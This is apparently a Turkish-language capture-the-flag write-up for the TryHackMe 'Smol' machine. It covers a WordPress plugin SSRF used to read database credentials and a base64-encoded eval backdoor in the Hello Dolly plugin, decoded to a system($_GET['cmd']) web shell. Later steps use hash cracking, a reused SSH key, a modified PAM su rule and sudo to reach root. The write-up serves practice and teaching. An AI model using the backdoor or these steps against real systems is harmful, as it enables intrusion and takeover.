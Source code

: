 ```yaml
---
title: 'TryHackMe | Smol WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [wordpress, lfi, pam]
render_with_liquid: false
media_subpath: /images/tryhackme_smol/
image:
  path: logo.webp
---
```


## Özet

Smol, zafiyetli bir eklentiye sahip orta seviye linux bir makinedir. Öncelikle eklentide bulunan `SSRF` zafiyetinden yararlanarak kullanıcı bilgilerini alacağız. Daha sonra bulduğumuz bir yönergeyi takip ederek sistemden shell elde edeceğiz. Sisteme girdikten sonra ise dört kullanıcı arasında sırasıyla geçiş yapacak, en son ise sudo haklarımızdan yararlanarak yetki yükselteceğiz.

### Makine hakkında ek bilgiler

- WordPress içerik yönetim sistemi kullanılıyor.
- Zafiyetli bir eklenti kullanılıyor.
- Eklentilerin içerisinde bir yerde arka kapı bulunuyor.
- GPU’su olmayan bilgisayarlarda john’un hashcat’ten daha hızlı olduğu yazıyor. Kısaca hash kırma işleminin uzun süreceğini söylüyor.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sSVC -T4 10.10.240.79
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan zafiyetli eklentiyi tespit etmek için wpscan aracını kullanmaya karar verdim.

```console
$ wpscan --url http://www.smol.thm/ -e p
[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

Tarama sonucunda `jsmol2wp` adında bir eklenti kullandığını öğreniyoruz. Eklentiyi internette arattığımızda [bu](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) github sayfası ile karşılaşıyoruz.

## Sömürü aşaması

Burada eklentinin `jsmol.php` sayfasında hem `XSS` hem de `SSRF` zafiyetinin barındığı yazıyor. Query parametresinin etkilendiği bu uzantıyı alıp hedef uygulamanın sonuna ekliyorum.

![](2.webp){: width="1200" height="600" }

Böylece config dosyasındaki veri tabanı bilgilerini almış olduk. Bu bilgileri kullanarak panele giriş yapabiliyorum.

![](3.webp){: width="1200" height="600" }

Panelde eklentiler ve temalar sayfası bulunmuyor. Sayfalar kategorisini seçtiğimde ise `Webmaster Tasks!!` adında bir yazı ile karşılaşıyorum.

![](4.webp){: width="1200" height="600" }

Eklentilerin birinde gizli bir arka kapı olduğu bilgisi verilmişti zaten. Burada o eklentinin “Hello Dolly” olduğu yazıyor. Biraz önce bulduğumuz SSRF zafiyeti ile eklentinin kaynak kodunu görüntüleyelim.

![](5.webp){: width="1200" height="600" }

Gördüğünüz üzere önce base64 ile kodlanmış veriyi çözüyor daha sonra ise eval fonksiyonu ile çalıştırıyor. Kodlanmış bu veriyi chepy aracı ile çözdükten sonra `cmd` parametresini kullanarak sistemde komut çalıştırabileceğimizi görüyoruz

```console
$chepy "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA="
>>> from_base64
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
>>> unicode_to_str
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); } 
>>>
```

Parametreyi kullanarak sistemden shell elde etmek için eklentinin bulunduğu sayfaya yöneldim ama komutu gönderdiğimde herhangi bir tepki vermedi. Haliyle komut çalıştırabilmek için bu eklentinin kullanıldığı bir alan bulmamız gerektiğini düşündüm. Ana sayfaya tekrar döndüğümde sağ kısımda şiirden bir parça gördüm ve ana sayfada kullanıldığını düşünerek parametreyi ekledim.

![](6.webp){: width="1200" height="600" }

Komut çalıştırabildiğimize göre sistemden bir shell alabiliriz.

![](7.webp){: width="1000" height="550" }

Bağlantı geldikten sonra kullanıcıları görmek için /home dizinine gittim. Hiçbir kullanıcı dizinini görüntüleme yetkimiz yok. Ayrıca tüm kullanıcılar “internal” grubuna dahil edilmiş. Bir şekilde bu gruba dahil olursak tüm kullanıcı dizinlerini gezebiliriz.

```console
www-data@smol:/var/www/wordpress/wp-admin$ ls -la /home
total 24
drwxr-xr-x  6 root  root     4096 Aug 16  2023 .
drwxr-xr-x 18 root  root     4096 Mar 29  2024 ..
drwxr-x---  2 diego internal 4096 Aug 18  2023 diego
drwxr-x---  2 gege  internal 4096 Aug 18  2023 gege
drwxr-x---  5 think internal 4096 Jan 12  2024 think
drwxr-x---  2 xavi  internal 4096 Aug 18  2023 xavi
```

## Yetki yükseltme

### diego

Öncelikle wp-config.php dosyasındaki bilgileri kullanarak veri tabanına giriş yaptım. wp_user tablosundaki hashleri ve kullanıcı adlarını alıp bir dosyaya yazdım. Daha sonra bu hashleri kırması için john aracını kullandım.

![](8.webp){: width="1200" height="600" }

Karşılaştırma işlemi devam ederken `diego` kullanıcısının parolasını buldu. Diego kullanıcısına geçiş yapıp kendi dizininden ilk bayrağı alıyorum.

### think

internal grubuna girdiğimize göre diğer kullanıcıların dizinlerini gezebiliriz. 

```console
diego@smol:/home/gege$ ls -la
...
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
diego@smol:/home/think$ ls -la
...
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
...
```

gege kullanıcısının dizininde wordpress.old.zip dosyası bulunuyor ama yetkimiz dışında. think kullanıcısının dizininde ise .ssh dizini bulunuyor. Buradaki id_rsa dosyasını kullanarak think kullanıcısına geçiş yapıyorum.

```console
$ chmod 600 id_rsa
$ ssh think@10.10.240.79 -i id_rsa
```

### gege

Sistemde uzun bir süre gezdikten sonra think kullanıcısının parola kullanmadan gege kullanıcısına geçiş yapabileceğini öğrendim.

```console
think@smol:/etc/pam.d$ cat su
...                                                                                                                                                 
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
...
```

/etc/pam.d dizini sistemdeki doğrulamalar için kullanılan yapılandırma dosyalarını barındıyor. Bunlardan biri olan su dosyasının düzenlendiğini görüyoruz.

```console
think@smol:/etc/pam.d$ su gege
gege@smol:/etc/pam.d$ cd
gege@smol:~$ ls
wordpress.old.zip
```

### xavi

Kullanıcı değişiminden sonra zip dosyasını çıkarmak için /home/gege dizine gittim ama parola koruması olduğu için dosyayı çıkaramadım. Bu zip dosyasını kırmak için önce kendi sistemime indirdim. Daha sonra `zip2john wordpress.old.zip > hash` komutu ile kırılabilir bir formata çevirdim ve john aracını çalıştırdım

```console
$ cat hash 
wordpress.old.zip:$pkzip$8*1*1*0*0*24*a31c*c2fb90b39...
$ sudo john hash -w=Desktop/rockyou.txt
...
*** (wordpress.old.zip)
...
```

Zip dosyasını çıkartıp içerisindeki config dosyasını açtığımızda xavi kullanıcısının parolasını görüyoruz.

```php
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', '***' );
```

### root

xavi kullanıcısına geçiş yaptıktan sonra sudo haklarımızı görüntülediğimizde herhangi bir komutu herhangi bir kullanıcı olarak çalıştırabileceğimizi görüyoruz ve `sudo su` komutunu kullanarak en yetkili hesaba geçiş yapıyoruz.

```console
xavi@smol:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL
xavi@smol:~$ sudo su
root@smol:/home/xavi$ ls /root
...
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
...
```
